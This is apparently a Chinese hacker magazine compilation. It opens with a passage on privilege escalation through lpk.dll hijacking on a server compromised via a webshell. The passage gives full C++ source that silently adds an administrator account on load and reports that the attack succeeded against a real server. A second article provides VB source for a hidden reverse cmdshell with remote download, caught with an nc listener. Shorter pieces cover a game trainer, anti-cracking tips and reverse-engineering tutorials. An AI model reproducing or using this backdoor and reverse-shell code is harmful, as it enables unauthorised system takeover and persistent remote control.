在我要提权的服务器上有一个 WinWebMail 目录是我的 webshell 可写的，并且该目录下有开机运行的 exe 文件。我把生成的 lpk.dll 通过 webshell 上传到 WinWebMail 目录下，就等服务器重启了。等了大概两周，在服务器远程桌面登录的地方按下 5 下 Shift 键后出来了后门的粘滞键设置对话框，说明 lpk.dll 被加载了。可惜的是替换后的 sethc.exe 在服务器上出错了，没法调出后门的功能界面，自然也就不能执行命令了。虽然提权没有成功，却知道 lpk.dll 可以在服务器上被加载。

## 二、修改 lpk.dll 的源代码实现功能自定义

利用 Rices 提供的 lpk.dll 提权粘滞键后门进行提权使用方便，设置个热键和密码就可以用了，但局限性也很大。由于是利用的粘滞键后门，要求服务器必须开启远程桌面服务而且没有限制连接。如果能通过修改 lpk.dll 的源代码实现功能的自定义就好了，比如可以让 lpk.dll 运行指定的 cmd 命令。因为自己一点也不会编程，以为修改 lpk.dll 的源代码很难，暂时搁下了。巧的是没几天就在土司看到了 backerhack 写的“强X-服务器过程”一文，文中 backerhack 用自己修改过的 lpk.dll 完成了提权，并且给出了他利用的 lpk.dll 的 C++ 语言源代码。满心欢喜地把源代码下载回来，编译成功，也能被 exe 文件加载，但就是里面添加管理员用户的代码没有执行，再次郁闷了。后来发现 backerhack 给出的 lpk.dll 源代码好像存在一点问题，因为他给出的源代码和他编译成功截图中显示的源代码有明显的不同。

就打算再到网上找 lpk.dll 的源代码，在网上找到一份 LPK 劫持 DLL 实现下载的源代码，编译没问题，但编译生成的 lpk.dll 根本不能被 exe 文件加载，不能用。还是想找 lpk.dll 的源代码，想到 Rices 发的利用 lpk.dll 提权的粘滞键后门，他肯定有 lpk.dll 的源代码，向 Rices 要了一份 lpk.dll 的源代码，在此感谢 Rices 兄弟。Rices 给的源代码是用易语言写的，下载了易语言安装后编译的时候却提示不能编译，到网上查了下需要对易语言安装程序进行破解后才能使用编译功能，而且破解过程比较麻烦，懒得破解了，继续到网上找别的 lpk.dll 源代码。找到了看雪学院的老大 kanxue 给出的一份 lpk.dll 源代码，代码是用 C++ 写的，具体地址为 http://bbs.pediy.com/showthread.php?p=471262#post471262 ，有需要的也可以自己去下载。kanxue 给出的 lpk.dll 源代码的作用是利用 lpk.dll 的劫持功能给程序打补丁了。通过查看源代码中 lpk.cpp 文件的内容，发现打补丁的功能是通过 PatchProcess() 函数实现的，然后通过 hijack() 函数调用 PatchProcess() 函数，最后在 MemCode_LpkGetTextExtentExPoint() 函数中调用 hijack() 函数实现打补丁的功能（我对编程一点不会，解释不对的地方还请见谅）。

我通过修改 lpk.dll 的源代码想实现的功能是在 lpk.dll 被加载的时候执行添加管理员用户的 cmd 命令，具体命令类似为 `system("cmd /C net user ServiceAdmin yu@65gdr#09n /add&net localgroup administrators ServiceAdmin /add")；` 也就是添加一个用户名为 ServiceAdmin、密码为 yu@65gdr#09n 的管理员用户。密码设置得比较复杂是为了在服务器设置了密码策略时也能添加用户成功。我决定舍去 PatchProcess() 函数，直接在 hijack() 函数中加入添加管理员用户的代码，然后在 MemCode_LpkInitialize() 函数中调用 hijack() 函数来实现加管理员用户的功能。至于为什么不在原来的 MemCode_LpkGetTextExtentExPoint() 函数中调用 hijack() 函数，是因为我发现在 MemCode_LpkGetTextExtentExPoint() 函数中调用 hijack() 函数时，添加管理员用户的代码被重复多次执行，加载 lpk.dll 的 exe 文件要经过一段时间才能启动起来，容易被管理员发现。经过测试发现在 MemCode_LpkInitialize() 函数中调用 hijack() 函数不会重复执行，所以就用 MemCode_LpkInitialize() 函数调用 hijack() 函数了。

修改后的 hijack() 函数为：

```cpp
#include <stdlib.h>
int hijack()
{
    system("cmd /C net user ServiceAdmin yu@65gdr#09n /add&net localgroup administrators ServiceAdmin /add");
    return 0;
}
```

在安装了 Microsoft Visual C++ 6.0 的系统中解压 kanxue 提供的 lpk.dll 源代码，双击 lpk.dsw 用 Microsoft Visual C++ 6.0 打开，找到 Source Files 下的 lpk.cpp，双击，打开了 lpk.cpp 的源代码，如图8。


图8

修改后的 lpk.cpp 的源代码为：

```cpp
#include <Windows.h>
#define EXTERNC extern "C"
#define NAKED __declspec(naked)
#define EXPORT __declspec(dllexport)
#define ALCALL EXTERNC EXPORT NAKED
#define ALCSTD EXTERNC EXPORT NAKED void __stdcall
#define ALCFAST EXTERNC EXPORT NAKED void __fastcall
#define ALCDECL EXTERNC EXPORT NAKED void __cdecl

#include <TlHelp32.h>
#include <stdlib.h>

int hijack()
{
    system("cmd /C net user ServiceAdmin yu@65gdr#09n /add&net localgroup administrators ServiceAdmin /add");
    return 0;
}

namespace MemCode
{
    HMODULE m_hModule = NULL;
    DWORD m_adwReturn[500] = {0};

    inline BOOL WINAPI Load()
    {
        TCHAR tzPath[MAX_PATH] = {0};
        TCHAR tzTemp[MAX_PATH] = {0};

        GetSystemDirectory(tzPath, sizeof(tzPath));
        strcat(tzPath, "\\lpk.dll");
        m_hModule = LoadLibrary(tzPath);
        if (m_hModule == NULL)
        {
            wsprintf(tzTemp, TEXT("无法加载 %s 程序无法正常运行。"), tzPath);
            MessageBox(NULL, tzTemp, TEXT("MemCode"), MB_ICONSTOP);
        }
        return (m_hModule != NULL);
    }
}
```

# 黑客编程

```cpp
// 释放原始模块
inline VOID WINAPI Free()
{
    if (m_hModule)
    {
        FreeLibrary(m_hModule);
    }
}

// 获取原始函数地址
FARPROC WINAPI GetAddress(PCSTR pszProcName)
{
    FARPROC fpAddress;
    TCHAR szProcName[16] = {0};
    TCHAR tzTemp[MAX_PATH] = {0};

    if (m_hModule == NULL)
    {
        if (Load() == FALSE)
        {
            ExitProcess(1);
        }
    }

    fpAddress = GetProcAddress(m_hModule, pszProcName);
    if (fpAddress == NULL)
    {
        if (HIWORD(pszProcName) == 0)
        {
            wsprintf(szProcName, "%d", pszProcName);
            pszProcName = szProcName;
        }

        wsprintf(tzTemp, TEXT("无法找到函数 %hs，程序无法正常运行。"), pszProcName);
        MessageBox(NULL, tzTemp, TEXT("MemCode"), MB_ICONSTOP);
        ExitProcess(-2);
    }

    return fpAddress;
}

using namespace MemCode;
// LpkEditControl导出的函数码，不是单一的函数(by Backer)

EXTERNC EXPORT void __cdecl MemCode_LpkEditControl(void);
EXTERNC __declspec(dllexport) void (*LpkEditControl[14])() = {MemCode_LpkEditControl};

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);

        for (INT i = 0; i < sizeof(m_dwReturn) / sizeof(DWORD); i++)
        {
            m_dwReturn[i] = TlsAlloc();
        }

        // LpkEditControl这个数组有14个成员，必须将其复制过来
        memcpy(LpkEditControl + 1, (int*)GetAddress("LpkEditControl") + 1, sizeof(LpkEditControl) - 4);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        for (INT i = 0; i < sizeof(m_dwReturn) / sizeof(DWORD); i++)
        {
            TlsFree(m_dwReturn[i]);
        }

        Free();
    }
}
```

```cpp
// 导出函数
#pragma comment(linker, "/EXPORT:LpkInitialize=_MemCode_LpkInitialize,@1")
#pragma comment(linker, "/EXPORT:LpkTabbedTextOut=_MemCode_LpkTabbedTextOut,@2")
#pragma comment(linker, "/EXPORT:LpkDllInitialize=_MemCode_LpkDllInitialize,@3")
#pragma comment(linker, "/EXPORT:LpkDrawTextEx=_MemCode_LpkDrawTextEx,@4")
#pragma comment(linker, "/EXPORT:LpkEditControl=_MemCode_LpkEditControl,@5")
#pragma comment(linker, "/EXPORT:LpkExtTextOut=_MemCode_LpkExtTextOut,@6")
#pragma comment(linker, "/EXPORT:LpkGetCharacterPlacement=_MemCode_LpkGetCharacterPlacement,@7")
#pragma comment(linker, "/EXPORT:LpkGetTextExtentExPoint=_MemCode_LpkGetTextExtentExPoint,@8")
#pragma comment(linker, "/EXPORT:LpkPSMTextOut=_MemCode_LpkPSMTextOut,@9")
#pragma comment(linker, "/EXPORT:LpkUseGDIWidthCache=_MemCode_LpkUseGDIWidthCache,@10")
#pragma comment(linker, "/EXPORT:ftsWordBreak=_MemCode_ftsWordBreak,@11")

ALCDECL MemCode_LpkInitialize(void)
{
    hijack();
    GetAddress("LpkInitialize");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkTabbedTextOut(void)
{
    GetAddress("LpkTabbedTextOut");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkDllInitialize(void)
{
    GetAddress("LpkDllInitialize");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkDrawTextEx(void)
{
    GetAddress("LpkDrawTextEx");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkEditControl(void)
{
    GetAddress("LpkEditControl");
    __asm JMP DWORD ptr [EAX];
}

ALCDECL MemCode_LpkExtTextOut(void)
{
    GetAddress("LpkExtTextOut");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkGetCharacterPlacement(void)
{
    GetAddress("LpkGetCharacterPlacement");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkGetTextExtentExPoint(void)
{
    GetAddress("LpkGetTextExtentExPoint");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkPSMTextOut(void)
{
    GetAddress("LpkPSMTextOut");
    __asm JMP EAX;
}

ALCDECL MemCode_LpkUseGDIWidthCache(void)
{
    GetAddress("LpkUseGDIWidthCache");
    __asm JMP EAX;
}

ALCDECL MemCode_ftsWordBreak(void)
{
    GetAddress("ftsWordBreak");
    __asm JMP EAX;
}
```

注意：给出的代码为了减小代码量，很多版权信息和注释我都省略了，完整代码我会打包给大家。

点 Microsoft Visual C++ 6.0 中的“Build”按钮，代码没有错误，顺利生成 lpk.dll，如图9。看生成的 lpk.dll 功能是否正常。桌面上有一个 exe 文件迷你虚拟光驱.exe，把 lpk.dll 复制到桌面上，打开命令提示符，输入 net user 回车后显示当前系统中的用户如图10。


图9


图10

运行桌面上的迷你虚拟光驱.exe。有一个 cmd 窗口一闪而过，再执行一下 net user 命令，发现多了一个用户 ServiceAdmin，如图11，正是 lpk.dll 添加的用户。说明 lpk.dll 功能正常。把编译生成的 lpk.dll 复制到 Windows 2003 系统中的啊D的 exe 文件所在的目录，运行 AD.exe 后也添加用户成功，如图12。说明 lpk.dll 在另一个操作系统 Windows 2003 中功能也正常，兼容性还可以。

只要修改 system() 函数中要执行的代码，就可以利用 lpk.dll 实现很多功能。我用生成的 lpk.dll 提权成功了我一直想提权的服务器。

经过修改源代码后生成的 lpk.dll 实现了功能的自定义，要实现不同的功能只需要修改源代码中 system() 函数执行的命令就行了，但也有一个不足，就是执行命令的时候会有一个 cmd 窗口一闪而过，可能被管理员发现。


图11


图12

利用 lpk.dll 提权的方法只在 Windows 2003 以及更早的 Windows 操作系统中有效，在 Windows 7 和 Windows 2008 系统中无效。

## 用VB SocketAPI开发自己的反弹型Cmdshell

南拳Daddy

记得09年在黑客X档案上看到有关于VB开发远控的系列专题文章，作者写得还不错。但是用的都是 Winsock 控件实现的。用 Winsock 开发远控或者 Cmdshell 后门会存在很多问题，比如被控端体积会很大，因为 Winsock 控件需要 mswinsck.ocx 的支持，在大多数系统中没有自带这个文件。还有就是在 Windows 7 系统下，很多用户都是以非管理员用户登录系统的，导致 mswinsck.ocx 无法注册。也就没办法让 Winsock 控件实现的远控或 cmdshell 后门发挥作用了。

下面我将给大家详细介绍怎么用 SocketAPI 来开发一款功能实用的反弹型 Cmdshell。

在写这款 Cmdshell 之前，首先得认识一些重要的 API 函数以及怎么去声明这些 API 函数。

因为 VB 和 C++ 不一样，在使用相关的 API 函数之前得先声明后使用，而 C++ 只要 include 相关的头文件就可以了。

## 1. WSAStartup 函数

为了在你的应用程序当中调用任何一个 Winsock API 函数，首先第一件事情你就是必须通过 WSAStartup 函数完成对 Winsock 服务的初始化，因此需要调用 WSAStartup 函数。

## 2. WSACleanup 函数

每次调用了 WSAStartup 函数，你都需要调用 WSACleanup 函数，通知系统来卸载库文件及清除已分配的资源，这个函数十分简单，没有任何参数。

### 3. 建立Socket函数

```vb
Declare Function socket Lib "ws2_32.dll" (
    ByVal af As Long,
    ByVal s_type As Long,
    ByVal Protocol As Long
) As Long
```

该函数可以建立使用特定协议的网络套接字。

### 4. 关闭Socket函数

```vb
Declare Function closesocket Lib "ws2_32.dll" (
    ByVal s As Long
) As Long
```

函数有一个参数为建立 socket 时的 Handle。

## 5. 连接函数

```vb
Declare Function connect Lib "ws2_32.dll" (
    ByVal s As Long,
    ByRef name As sockaddr_in,
    ByVal namelen As Long
) As Long
```

## 6. 接收信息

```vb
Declare Function recv Lib "ws2_32.dll" (
    ByVal s As Long,
    ByRef buf As Any,
    ByVal buflen As Long,
    ByVal flags As Long
) As Long
```

## 7. 发送信息

```vb
Declare Function send Lib "ws2_32.dll" (
    ByVal s As Long,
    ByRef buf As Any,
    ByVal buflen As Long,
    ByVal flags As Long
) As Long
```

好，就先介绍这么多，与 SocketAPI 有关的 API 函数还有几个，比如绑定和监听函数等等，我就不介绍了，因为我们要写的是反弹型的 Cmdshell，用不到绑定和监听的函数。我们只要在客户端用 NC.exe 这个程序监听就可以了。这里还要注意的是，应该把 API 函数的声明放在模块中，把代码的实现部分写在窗体中。并在窗体中放入一个 Timer1 控件。为了节约版面，我就不贴出函数声明部分的代码了。我这里只贴出代码的实现部分，如下：Form_Load() 过程中加入，代码如下：

```vb
Private Sub Form_Load()
On Error Resume Next  ' 遇到错误继续运行
App.TaskVisible = False  ' 使程序不在任务管理器中出现(注:不是隐藏进程)
Form1.Visible = False  ' 把程序窗体设为隐藏
Timer1.Interval = 1000  ' 设置timer1控件的间隔时间为1000毫秒
Dim udtWinsockData As WSAData
Dim starts As Long
starts = WSAStartup(&H202, udtWinsockData)  ' 通过WSAStartup函数完成对Winsock服务的初始化
End Sub
```

下面是 Timer1 控件部分的代码，就是每隔1秒钟反弹连接一次，直到连接上为止。

```vb
Private Sub Timer1_Timer()
Dim name As sockaddr_in
Dim s As Long, sock As Long, title As String, mess As String, cmdlength As String
Dim Buf(0 To 8192) As Byte, buff As String, result As String

sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)

' 填充结构
name.sin_family = AF_INET
name.sin_addr.S_addr = inet_addr("127.0.0.1")  ' 这里是你要连接上的IP地址
name.sin_port = htons(8080)  ' 反弹连接8080端口

s = connect(sock, name, 1024)
If s = 0 Then
    title = vbTab & "+------------------------------+" & Chr(10)
    mess = "Door Confect-Back Made by 南拳Daddy" & Space(3) & "Login Time:" & Now & Chr(10)

    send sock, title, Len(title) + 2, 0
    send sock, mess, Len(mess) + 2, 0
    send sock, title, Len(title) + 2, 0
    send sock, Chr(10) & "$", 2, 0
    i = 0

    Do While (1)
        ' 做一个While死循环来获取客户端发送过来的命令
        cmdlength = recv(sock, Buf(i), Len(Buf(i)), 0)
        If cmdlength <= 0 Then Exit Do
        If Buf(i) <> 10 Then buff = buff & Chr(Buf(i))  ' 还原命令字符串(ASCII)

        If Buf(i) = 10 Then
            If LCase(Trim(buff)) = "exit" Then
                send sock, "bye!", 4, 0
                closesocket(sock)

            ElseIf Mid(buff, 1, 4) = "wget" Then
                ' 文件下载功能
                Dim szURL As String
                szURL = Replace(Mid(buff, 6, Len(buff)), Chr(10), vbNullString)
                URLDownloadToFile 0, "Http://" & szURL, App.Path & "\" & Mid(szURL, InStr(szURL, "/") + 1, Len(szURL)), 0, 0
                ' 可选: ShellExecute 下载后执行
                send sock, Mid(szURL, InStr(szURL, "/") + 1, Len(szURL)) & " saved", Len(Mid(szURL, InStr(szURL, "/") + 1, Len(szURL)) & " saved"), 0
                send sock, Chr(10) & "$", 2, 0
                buff = ""

            Else
                send sock, ExecuteCommand(buff), Len(ExecuteCommand(buff)), 0
                send sock, Chr(10) & "$", 2, 0
                buff = ""
            End If
        End If
    Loop
End If
End Sub
```

```vb
End If

End If

i = i + 1
Loop

End If

End Sub
```

```vb
Exit Function

Ret = CloseHandle(hWritePipe)

mOutputs = ""
Do
    Ret = ReadFile(hReadPipe, strBuff, BuffSize, lngBytesread, 0&)
    If Ret = 0 Then Exit Do
    mOutputs = mOutputs & LeftB(StrConv(strBuff, vbFromUnicode), lngBytesread)
Loop

Ret = CloseHandle(proc.hProcess)
Ret = CloseHandle(proc.hThread)
Ret = CloseHandle(hReadPipe)

ExecuteCommand = Replace(StrConv(mOutputs, vbUnicode), Chr(0), vbNullString)

End Function
```

上面的代码我做了详细的注释，相信学过VB的同学，看懂应该没问题。

下面是管道执行命令的自定义函数：

```vb
Public Function ExecuteCommand(CommandLine As String) As String
' 管道方式执行DOS命令并返回执行结果
Const BuffSize As Long = 32767
Dim proc As PROCESS_INFORMATION
Dim Ret As Long
Dim start As STARTUPINFO
Dim sa As SECURITY_ATTRIBUTES
Dim hReadPipe As Long, hWritePipe As Long, lngBytesread As Long
Dim strBuff As String * BuffSize, mOutputs As String

sa.nLength = Len(sa)
sa.bInheritHandle = 1&
sa.lpSecurityDescriptor = 0&
Ret = CreatePipe(hReadPipe, hWritePipe, sa, 0)

If Ret = 0 Then
    ExecuteCommand = "CreatePipe Failed, Error: " & Err.LastDllError
    Exit Function
End If

start.cb = Len(start)
start.dwFlags = &H100 Or ...
start.hStdOutput = hWritePipe
start.hStdError = hWritePipe
Ret& = CreateProcessA(vbNullString, "cmd.exe /c " & CommandLine, sa, sa, 1, CREATE_NEW_CONSOLE, 0, 0, start, proc)
If Ret <> 1 Then ExecuteCommand = "Error: " & CommandLine & " 不是可运行的程序"
```

这个用管道执行命令的自定义函数里头也包含了几个重要的API函数，比如CreateProcessA，这个是用匿名管道执行命令的API函数。函数的声明部分我把它们都写在模块部分了。关于这几个API函数的详细介绍，大家可以去MSDN上查找，因为VB调用的API函数和C++调用的API函数都是一个道理，只是写的形式不一样罢了。C++只要include头文件就可以使用了，而VB要先声明后调用，但是它们的参数都是一样的。

好了，代码部分就介绍到这里了，下面就是功能演示了。在VB开发环境中点“开始”->生成一个.exe文件，然后双击运行，然后打开cmd命令提示符，用nc.exe监听，命令为：

```bash
nc -vv -lp 8080
```

效果图如下：


图1

我上面用的是 nmap 自带的 nc，也就是 ncat.exe 程序在客户端监听。

当然你还可以进行改进，把它写得更完美。比如进程隐藏、端口隐藏等等，还有就是添加自启动，过360安全卫士这样强大的安全软件。这款 cmdshell，我写得有半年了，但是还有不足的地方，比如客户端接收数据不完整、目录不能跳转等。我只是抛砖引玉，希望大家从中得到启发。

# 总结

这个用 SocketAPI 写的反弹型 cmdshell 就写到这了。

> （文章中涉及的相关源码本期光盘已收录）☒

# 反“灰色按钮克星”软件的程序设计

& h6ck1er

“灰色按钮克星”这款软件说起来真的很好用，前天就把别人某个禁止功能的软件给破解了，轻松使用了要注册才能使用的功能。但是我发现我的小软件上被禁止的功能也可以轻松地被激活。所以我马上修改了我的代码，最后成功防止了被破解的困扰。现在我来说下怎么来防止“灰色按钮克星”对自己的小程序进行破解。我将用两个软件来演示VB和E语言。

首先我们创建用E语言和VB来创建两个程序（两个程序的样本一样，就不重复了），如图1。程序如图2。


这个程序原理是：必须先登录才可以使用“会员功能”，不登录只能使用“非会员功能”（假设“会员功能”拥有某个功能）。但是我们直接用“灰色按钮克星”这个软件就能直接跳过登录使用“会员功能”。现在“会员功能”是被禁止的，如图3。而我们直接用“灰色按钮克星”这个软件就直接激活了“会员功能”，还成功使用了“会员功能”，如图4。不需要程序登录就直接使用“会员功能”，这个能省不少事。所以网上许多像这样被禁止功能的软件，不是要收费就是要注册才可以使用。所以许多人就直接用“灰色按钮克星”软件，就能省掉许多事。

现在我们可以把程序改一下就能防止这样的事发生。添加一个标签，如图5，程序改为图6。我们修改过后的程序是不会影响正常登录的，如图7。现在我们再用“灰色按钮克星”测试下，如图8。虽然功能被激活，但是它却显示了“启动失败”，而我们的目的是显示“会员功能启动成功”。所以很明显，这样简单修改后，“灰色按钮克星”无法再对我们的程序有任何作用。


图4


图7


图5


图8


图6

我来分析一下原理：多设置一个标签的原因是证明登录是否成功。因为之前使用“会员功能”时，程序自身无法知道用户是否成功登录过。而改过的程序能判断用户是否登录。所以加那个标签是为了检测用户是否登录；一旦登录成功，标签内容将变成1，然后被激活的程序判断标签是否为1（由此判断用户是否登录），从而得知该返回哪个信息。整个步骤就是多了一个判断，如果不加这个判断，被禁止的按钮就无法得知用户是否登录过。（小菜们可以借鉴这个简单程序来自由发挥，不一定完全照这个，因为这个只是用来演示的。）

虽然这个简单修改只能防止“灰色按钮克星”这款软件，但对于一些不会反编译的菜鸟是完全能防止的，而对于一些高手这点是没有什么阻碍的。但我们也可以把程序改复杂，让破解人员不能轻易破解。所以现在网上也有许多软件都写入了防反编译程序，如一些写收费外挂的，它们为了防止被破解，往往会把程序写复杂。如：把死机程序写在应用程序里；或者写一个自杀程序；还有甚至会写入木马病毒来防止被破解。不仅是这些，连微软在设计Windows时也写入了很复杂的程序，要不前几年盗版的Windows不会黑屏了。所以我们在写一些程序时也要注意这些。

> （文章中涉及的相关源码本期光盘已收录）

## 使用Cheat Engine制作游戏辅助工具

逍遥

最近总是回想起小时候玩的坦克大战游戏来，某天实在是无聊了，就去VeryCD上搜索了一下，别说，还真找到一款PC上玩的坦克射击游戏“标准坦克大战2009”。由于体积灰常小，所以很快就下载下来了（下载地址：http://www.verycd.com/entries/247/）。程序不用安装，直接解压缩到一个目录就可以玩了。几个回合下来就输得惨不忍睹，唉，木办法呀，水平不是一般的臭哟。

于是准备抄家伙研究一下，偶先把 Cheat Engine V5.4 简体中文版翻出来，并运行起来（以下简称CE），然后启动游戏。如图1所示。


使用CE载入游戏，然后切换到游戏中，选择EASY模式。你会看到游戏初始化完成后会给你50个炮弹、300发机枪子弹、3条生命以及每条生命5格血。我们就先从炮弹开始，来查找存储炮弹数据的地址吧。通过如图2所示的设置。


在数值栏填入50（我这里进入游戏后开了一炮，故为49），扫描类型选择“精确数值”，然后点击“首次扫描”。等扫描结束后返回到游戏中肆意开炮，然后记下所剩余的炮弹数，并按Alt+Tab键切换到CE程序界面。如图3所示的设置。


在数值栏填入刚才记下来的数据，我这里是45。其他设置不变，然后点击“再次扫描”按钮。等扫描结束后会得到一个结果。编辑这个地址内的数据值并锁定它，然后返回到游戏当中。这时候可以疯狂开炮而不用担心炮弹会被打光了。使用同样的方法来获取机枪子弹的数据地址为：004C9C90，并把它记录下来。接下来我们要先查找到生命个数的数据地址，搜索生命个数的时候要从2开始搜索，经过三次搜索之后会获取到如图4所示。


经过确认后，得出结果为第一个地址：004C9C80，为我们要找的那个地址。我们把它记录下来。剩下的就是要找出每条生命的血液值存放位置了。这个地址找起来确实让我花费了一番功夫才找到。使用CE设置如图5所示的结果。

初次搜索，选择扫描类型为“未知初始值”。然后锁定上边找到的那个生命个数地址（即地址004C9C80所指向的数据），使其值不再变化，这样就不用担心生命数被用光。然后通过反复搜索扫描类型为“减少的数值”和“增加的数值”，最终确定了如图6所示的地址：00EFA99A，其值为：16544（EASY模式下满血状态）。

好了，到现在为止所有的数据值所在地址都被找到了。我们可以利用现在这些信息来制作这个辅助工具。切换到CE程序界面，如图7所示点击磁盘图标，在弹出的保存对话框中选择保存类型为.EXE文件，点击保存按钮后弹出如图8所示的对话框，保持以上设置不变，点击确定后弹出Trainer生成器的设置页面。在Trainer的项目列表中添加上刚才的那几个地址。如图9所示，此为添加生命个数的截图。再把其它几个地址一一添加进来，最后获得如图10所示的设置效果。

一切设置停当以后点击“生成Trainer”按钮，即可在不用写任何代码的情况下获得一个游戏辅助工具。运行刚刚生成的文件，界面如图11所示。

好了，教程就到这里了，希望读者通过上面的学习已经能用这样的方法做出自己喜欢的游戏辅助工具，并通过游戏的过程获得快乐。

# 深入逆向分析

沧海浮萍

逆向分析相信对大家来说已经不再陌生，但比较高级深入的程序逆向分析相信大家可能没有接触过，笔者在这里权作抛砖引玉，为读者介绍一些常见但是不易理解的逆向信息。

```cpp
HRESULT hRes = CoInitializeEx(NULL, COINIT_MULTITHREADED);
#else
HRESULT hRes = CoInitialize(NULL);
#endif
```


图1

我们首先在“lpCmdLine = GetCommandLine();”这句代码处设置断点，然后利用VC的反汇编功能展开反汇编代码，部分反汇编代码如图3所示。这里我们先从断点位置上方的那部分代码开始分析。前面的6行代码笔者就不说了，来看下面的四句代码：

```asm
00401849 8D 7D 90         lea edi,[ebp-70h]
0040184C B9 1C 00 00 00   mov ecx,1Ch
00401851 B8 CC CC CC CC   mov eax,0CCCCCCCCh
00401856 F3 AB            rep stos dword ptr [edi]
```


图2

笔者这里的案例程序是在 VC++6.0 开发平台上创建的 Win32 Console Application 工程的可执行文件，如图1所示。在这种模式下生成程序代码比较复杂，我们展开工程文件，打开“test.cpp”，如图2所示，这个文件就是我们的主文件。本文主要研究系统模式下的一些逆向信息，所以笔者就不添加自定义函数代码了，直接研究系统生成工程框架代码的逆向信息。下面我们开始分析。

首先找到我们的函数入口点，入口点代码如下：

```cpp
extern "C" int WINAPI _tWinMain(HINSTANCE hInstance,
    HINSTANCE /*hPrevInstance*/, LPTSTR lpCmdLine, int /*nShowCmd*/)
{
    lpCmdLine = GetCommandLine();
    ...
#if _WIN32_WINNT >= 0x0400 && defined(_ATL_FREE_THREADED)
    HRESULT hRes = CoInitializeEx(NULL, COINIT_MULTITHREADED);
#else
    HRESULT hRes = CoInitialize(NULL);
#endif
```


图3

“lea edi,[ebp-70h]”将ebp的值减去70h大小后将地址指向的值给了edi，其实就是将ebp-70h赋给了edi。由于上面已经将esp的值给了ebp（ebp起始值为0012FF30），所以这里edi的值就是0012FEC0。“mov ecx,1Ch”将1Ch放入了ecx，这里实际上是一个循环次数；关键是这句“rep stos dword ptr [edi]”，这句话的含义就是将eax中的数据写入到edi指向的内存地址，写入的次数为1Ch次。执行结束后的结果如图4、图5所示。我们来计算一下，上面ebp减去了7Ch是为了下面来存放这些数据，eax中数据为4个字节，1Ch次就是28*4=112个字节，而7C正好是7*16=112个字节。也就是说，上面的一切都是为了下面来放置一大片CC做准备的。那么CC是用来做什么的呢？在OD中我们经常会用到F2来设置断点，而F2的实质就是将该位置的代码修改为CC（即int3中断）。那就清楚了，在程序入口点放置这些代码的作用就是：如果代码执行发生意外，指令就会执行到错误位置的代码，也就是我们刚才的那些CC，从而引发中断来保护系统。


图4


图5

开始处的保护代码部分我们分析完了，下面继续分析。接下来的代码如下：

```asm
lpCmdLine = GetCommandLine();

; this line necessary for ATL_MIN_CRT
00401858 8B F4                mov esi,esp
0040185A FF 15 A8 E2 42 00    call dword ptr [__imp__GetCommandLineA@0]
00401860 3B F4                cmp esi,esp
00401862 E8 C9 30 00 00       call chkesp (00404930)
```

```asm
00401867 89 45 10
mov dword ptr [ebp+10h],eax
```

我们的C++代码是“lpCmdLine = GetCommandLine();”，这句代码的作用是用来获取命令行信息的，可在反汇编中我们却看到了两个call，其中一个是调用这个函数，而在这之后又多出了两句：cmp与call。那这又是用来做什么的呢？我们在OD中运行到第二个call里面，如图6所示。这里貌似很简单的代码，就是一个跳转，而跳转的执行与否则与前面的cmp相关，比较的数据如图7所示。这里我们人工故意将其修改成可以跳转，看看会有什么情况发生。如图8所示，错误产生了。显然这个call是用来保护程序的。根据错误产生的原因，显然是前面的esi与esp值不同而造成的，这就说明出现这种错误的原因就是堆栈不平衡。这个保护机制在我们的编程中是不会看到的，因为这些保护机制被默认添加到了程序中，只有我们去跟踪才会发现这些问题与细节。


图6


图7


图8

本篇文章主要为大家介绍了程序中一些隐藏、不可见的有用信息。这些信息在程序运行过程中起着十分重要的作用，但这些信息只有我们通过反汇编手段去跟踪时才会被发现。程序中被隐藏的东西很多很多，只有那些真正的高手才会去发掘Windows下不为人知的秘密。谨用此篇文章为大家起到抛砖引玉的作用。

# 再战 SyserWin32Debugger

沧海浮萍

相信很多读者在进行反汇编、破解等逆向工程时，使用的利器都是 OD。在这里笔者再次为大家推荐一款新工具 SyserWin32Debugger。这款工具与 OD 有异曲同工之妙，虽然有的地方可能跟不上 OD 灵活，但也有的地方比较不错，例如源码跟踪。本篇文章就为大家介绍这款来自国外的 SyserWin32Debugger。

软件是英文版的，这里为大家把菜单栏说明一下，帮助英文不太好的朋友。“Debug”菜单如图3所示：

- reset：用于将程序重置，相当于将该程序重新载入。
- continue：继续运行，相当于 OD 中的 F9，快捷键为 F5。
- Return：从代码中返回，相当于从一个函数中执行出来。例如我们在一个 call 处跟进去（图4），按 F8 跟进函数（图5）。
- Step：单步执行，但不跨越函数，快捷键 F8。与 OD 中使用习惯类似，但又有区别：OD 中的 F8 会直接将 call 执行完毕；这里的 F8 会直接跟到函数里面去，是真正的“单步执行”。
- Proceed：与 OD 中 F8 功能相同，单步执行且跨越函数。
- Step Branch：单步执行分支，即执行程序中的 switch{case} 语句。
- 以下四个命令分别是：设置断点（快捷键 Ctrl+F9）、激活所有断点、取消所有断点、删除所有断点。

首先进入 SyserWin32Debugger 的主界面（图1），仍然是传统界面。从左向右、从上至下分别是：寄存器窗口、内存数据窗口、堆栈窗口、反汇编窗口，最右下角是命令窗口。本文笔者用“记事本”程序为大家演示这款工具的使用方法以及应注意的问题。本程序支持拖曳，只要将要分析的程序拖拽到工具上即可。SyserWin32Debugger 载入记事本程序之后的界面如图2所示。

我们从堆栈窗口可以看出，“GetModuleHandle”这个函数应该返回到 010073B4 的位置（图6）。我们按 F6 来到图7所示代码位置，是一个 ret 返回指令；然后按 F8 单步一步，返回位置如图8所示。

然后我们来看程序的“Monitor”菜单命令（图9）：

- Register View：显示当前寄存器状况（图10）。
- Data View：数据窗口指令，用于显示指定地址的内存数据。我们以 0007FF34 地址为例（图11）。
- Call Stack：调用堆栈（图12），该窗口用于显示从堆栈位置执行的 call 指令。
- Run Trace List：指令执行跟踪列表，显示当前已执行完毕的代码，以及每条指令执行后的寄存器状态（图13）。
- Comment List：用于显示对代码的注释状况（图14）。

